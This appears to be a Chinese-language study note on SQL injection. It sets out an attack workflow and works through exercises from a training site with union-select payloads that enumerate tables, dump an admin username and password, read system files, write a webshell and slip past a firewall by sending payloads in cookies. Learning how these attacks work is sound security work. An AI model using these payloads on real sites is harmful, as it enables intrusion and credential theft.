 ```yaml
---
date: 2022-06-07 11:55:37
categories: 
  - 网络空间
tags: 
  - sql注入
author: 
  name: scucat
  link: https://github.com/scucat
---
```

# sql注入
相关教程

https://www.cnblogs.com/ihacker/p/11055191.html

## 注入流程
- 是否存在注入并且判断注入类型
- 判断字段数   order by 
- 确定回显点      union select 1,2
- 查询数据库信息    @@version    @@datadir
- 查询用户名，数据库名     user()   database()
- 文件读取  union select 1,load_file('C:\\wondows\\win.ini')#
- 写入 webshell       select..into  outfile...
- 补充一点，使用sql注入遇到转义字符串的单引号或者双引号，可使用HEX编码绕过

## SQL 注入常规利用思路：#
1. 寻找注入点，可以通过 web 扫描工具实现
2. 通过注入点，尝试获得关于连接数据库用户名、数据库名称、连接数据库用户权限、操作系统信息、数据库版本等相关信息。
3. 猜解关键数据库表及其重要字段与内容（常见如存放管理员账户的表名、字段名等信息）
3. 还可以获取数据库的root账号 密码—思路
4. 可以通过获得的用户信息，寻找后台登录。
5. 利用后台或了解的进一步信息。

## 习题1
https://bbs.zkaq.cn/?t/2642.html

### 1. 判断是否存在注入
如果语句1页面正常，语句2页面不正常，那么存在注入
```sql
?id=1 and 1=1
?id=1 and 1=2
```

### 2. 判断字段数
[使用order by排序判断字段数](https://blog.csdn.net/wangyuxiang946/article/details/121058067)
```
?id=1 and 1=1 order by 1  页面正常
?id=1 and 1=1 order by 2  页面正常
?id=1 and 1=1 order by 3  页面返回错误，判断字段数为2

```
order by怎么判断字段数？

原理很简单，就是利用数据库的「报错」机制
### 3. 判断回显点
```
?id=1 and 1=2 union select 1,2
```
![](https://bbs.zkaq.cn/upload/userfile/814/2e5c5824c7c2abd11571bef986f6dabe.png)

页面出现了  2  ，说明我们可以在数字  2  处显示我们想要的内容

### 4. 查询当前数据库名

构造 ?id=1 and 1=2 union select 1,database() 回车
![](https://bbs.zkaq.cn/upload/userfile/814/46d935412382cf748605ead31d519440.png)



### 查询当前数据库版本

构造 ?id=1 and 1=2 union select 1,version() 回车
![](https://bbs.zkaq.cn/upload/userfile/814/dcffa01ce32d5544aa3af08a6ab597c6.png)

### 查询当前数据库表名
构造 ?id=1 and 1=2 union select 1,table_name from information_schema.tables where table_schema=database() limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/ad3e67184d3fc69e17bb2cf236bc82dc.png)

绝大数情况下，管理员的账号密码都在admin表里


### 查询字段名
构造 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/727912aee432793581fdc525eea5b7d3.png)

构造 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 1,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/0e5e6f0b079395f54f066b62e370fd3c.png)


构造 ?id=1 and 1=2 union select 1,column_name from information_schema.columns where table_schema=database() and table_name='admin' limit 2,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/63c5e360490e6cd7472521cbc5344ea8.png)


查出 admin 表里 有  id   username  password  三个字段


### 查询字段内容
构造 ?id=1 and 1=2 union select 1,username from admin  limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/b45958e4625296047936bcc418dc3689.png)

构造 ?id=1 and 1=2 union select 1,password from admin  limit 1,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/93ea6cfe14260553ec81f2bb783f01ae.png)


limit 1,1 没有回显，说明只有一个用户

构造 ?id=1 and 1=2 union select 1,password from admin  limit 0,1 回车
![](https://bbs.zkaq.cn/upload/userfile/814/0b3a07dd50aa608a6475cf9501342162.png)

得到管理员账号和密码

## 习题2 绕过WAF
### 使用cookie进行传参
尝试将测试语句放到cookie里面，再发送给服务器，因为网页防护一般只拦截Get、post传参。

打开Chrome浏览器，这里用到了ModHeader插件
[ModHeader下载](http://bbs.zkaq.cn/?t/138.html)

> Access没有数据库名，但猜表名、列名，用手注非常耗时。管理员这里直接猜得的表名是 admin 、列名是username、password